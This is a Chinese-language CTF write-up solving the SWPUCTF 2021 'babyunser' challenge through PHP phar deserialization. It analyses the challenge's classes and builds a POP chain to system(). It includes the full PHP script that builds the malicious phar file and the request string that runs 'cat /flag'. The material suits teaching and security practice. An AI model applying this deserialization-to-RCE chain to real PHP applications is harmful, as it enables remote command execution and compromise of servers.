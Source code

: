 ## 基本信息

* 题目名称： [SWPUCTF 2021 新生赛]babyunser
* 题目链接： http://node5.anna.nssctf.cn:27981
* 考点清单： phar反序列化
* 工具清单： PHP环境，hackbar
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 题目给了两个接口，一个上传文件，一个下载文件。

2. 上传完成之后也会直接给出文件路径。

## 二、想到什么解题思路

1. 直接上传文件，发现上传图片，压缩包，`php`类型的文件都会被转化为`txt`文件进行存储。
2. 尝试着将`upload.php`和`read.php`文件的内容也通过`read.php`进行读取
3. 有多种类，但是没有`unserialize()`函数，考虑`phar`反序列化

## 三、尝试过程和结果记录

**尝试过程：**

1. 上传文本类型和图片类型，以及压缩包类型的文件都会以`txt`的形式进行存储。
2. 尝试使用【查看文件】的功能读取一下题目相关的文件，包括`index.php`，`upload.php`和`read.php`
    - `index.php`就是一个导航页面。
    - `upload.php`将我们上传的文件放在`upload`目录下，并用时间的`md5`值作为文件名，`txt`作为文件类型。
    - `read.php`中实例化对象相关的代码，并且引入了`class.php`。且题目的`php`代码中间还存在前端代码，容易导致`php`代码漏看。
    - `class.php`里面定义了很多很多的类，考察的是反序列化的内容。
    
3. `class.php`里的这些类看起来就非常复杂，我们构造反序列化链的时候，一定要从出口或者是入口找起，这样逻辑性更强。不难看出这里有一些危险函数，出口的位置也还需要确定。我们这里还需要回顾这些魔术方法的触发条件。
    - `__construct`创建类的新对象时,，会自动调用该方法。
    - `__toString()`将对象转换为字符串时自动触发
    - `__invoke()` 将对象作为函数调用时触发
    - `__get($key)` 访问对象中不存在的属性时触发，并将名字作为参数传入
    - `__destruct()` 对象销毁，或者脚本执行完时触发
    - `__call($name,$arg)` 调用一个不存在或不可访问的方法时被触发。

4. 先看一下每个类都有哪些方法和属性。

    - `aa`类，有一个属性`$name`，实例化这个类的时候，会将`$name`值初始化赋值为`aa`，当对象销毁时，会触发`strtolower()`函数，将`$name`当作字符串处理，小写化。注意，这个会触发`__toString()`方法要留个心眼。
    
    - `ff`类，有一个私有属性`$content`和公有属性`$func`，在实例化这个类的时候，会将`$content`初始化为一句话木马，如果这里是突破口，我们就要找到这个`$content`值所在的文件的位置。但是要注意它是私有属性，外面是访问不到的。所以没那么简单。`__get($key)`方法是在`$key`不存在时触发，并且`$key`的属性是`ff`类的`$func`，`$func`作为函数名，`cmd`作为函数的参数。

    - `zz`类，有`$filename`和`$content`两个公有属性，`__construct()`方法是将`$filename`进行赋值。`filter()`方法是对一些文件名关键词进行过滤，看的出来是一些伪协议。`write($var)`方法是将`$filename`属性下的`$var`属性赋值给`$lt`。
    玩`CTF`的最抽象了，它无缘无故这里说一个`//此功能废弃，不想写了`，大概率就是提示你这个要使用。`getFile()`方法是调用`filter()`方法，并读取`$contents`的内容进行返回，为空则提示404，最后还有一个`__toString()`方法，当`zz`这个对象被作为字符串使用时会触发该方法，接受传递的参数`method`和`var`，调用函数`method(var)`，并且将`content`返回。

    - `xx`类，有`$name`和`$arg`两个公有属性，类实例化时会将`$name`和`$arg`分别赋值为`eval`和`phpinfo();`,有查看`php`配置信息的意思了。它还有一个`__call()`函数，当`__call()`在调用一个不存在或不可访问的方法时被触发。就会执行`$name($arg[0]);`默认的是`eval(phpinfo()[0]);`，确实也可以执行。但是想想，题目给那么多参数，肯定没那么好心直接写好。

5. `read.php`里有如下的内容，所以我们可以尝试从这里分析。
    ```php
    $a=new aa();


    $file=new zz($filename);
    $contents=$file->getFile();
    ```
6.  `__toString()`方法使用了两个传入的参数，并且这里有函数执行，能够指向`write($var)`这个有提示的函数，所以这个方法大概率是被调用的。所以往前推一下，`strtolower`方法也要被调用。因此我们先尝试以`aa`这个类为链的头，记为第一步。
    ```
    $a = new aa();
    ```
7. 要使得第二步触发`tostring`方法，则`$a`的`$name`设置为`new zz()`;`__toString()`方法会执行`method(var)`函数，先将`method`设置为`write`，则当前实例化的`zz`类的`filename`属性下会有一个`var`属性，并且赋值给了`$lt`。`ff` 类中有个私有属性`$content`，并且有`__get($key)`，外部访问`$content`属性就会触发这个方法，并且这里也有外部`post`传递的参数，感觉就利用上了。于是这里就把`var`的值赋值为`content`。

    ```
    $a -> name = new zz();
    ```
8. 第三步：我们还要使得`$content`在`zz`这个类里作为属性被访问，所以`$this->filename`要赋值为
`new ff()`; 这样 `__get($key)`就被触发了，且`$key`是`$var`，`$var`的`$func`属性作为函数名称，`POST`传递的`cmd`参数作为函数参数。这个时候，就可以设置危险函数，比如`$func=system,cmd=cat /flag`。但是这个类里面并没有这个函数方法`system()`。

    ```
    $a -> name -> filename = new ff();
    ```

9.第四步：别忘记 `xx`类还有`__call()`方法，当这个类中函数方法不存在时就会触发。所以将`$this->$key`中的`$key`设置为`xx`类，也即`content`设置为`xx`类,`$name`和`$arg`会自动获取为`$func`的值`system`和`cmd`的值`cat /flag`。需要注意的是，`$content`为私有属性，需要类内赋值。

    ```
        public function __construct(){
        $this->content= new xx();
    }
    ```

10.构造`pop`链的时候，可以将类的一些无关方法删除，因为其中的一些量本地可能没有，删除不影响在云端运算的结果。下面的有关`phar`的则是标准操作，用来生成`phar`文件。需要在`php.ini`文件中修改`phar.readonly= Off`或者是终端临时设置`php -d phar.readonly=0 test.php`来允许生成`phar`文件。

    ```php
    <?php
        class aa{
            public $name;
        }

        class ff{
            private $content;
            public $func = 'system';

            public function __construct(){
                $this->content= new xx();
            }

        }

        class zz{
            public $filename;
            public $content;

        }

        class xx{
            public $name;
            public $arg;

        }
        $a = new aa();
        $a -> name = new zz();
        $a -> name -> filename = new ff();
        $phar = new phar('exp.phar');
        $phar -> startBuffering();
        $phar -> setStub("<?php __HALT_COMPILER();?>");
        $phar -> setMetadata($a); 
        $phar -> addFromString("test.txt","test");
        $phar -> stopBuffering();
        ?>
    ```
    ![](images/[SWPUCTF%202021%20新生赛]babyunser-php.png)

11. 上传`phar`文件。并获取文件路径`upload/6d2151e639ecf66fd66d1b8c51c78c12.txt`。
 
12. 在查看文件的接口打开`hackbar`，使用`phar`协议传输`file=phar://upload/6d2151e639ecf66fd66d1b8c51c78c12.txt&method=write&var=content&cmd=cat /flag`，即可得到`flag`。

    ![](images/[SWPUCTF%202021%20新生赛]babyunser-flag.png)


## 四、总结与反思

1. 善于观察，可以查看用户上传文件内容的接口是不是也能查看题目的文件。
2. 题目给出多个类，猜测是构造`pop`链，没有`unserialize()`函数，考虑`phar`反序列化


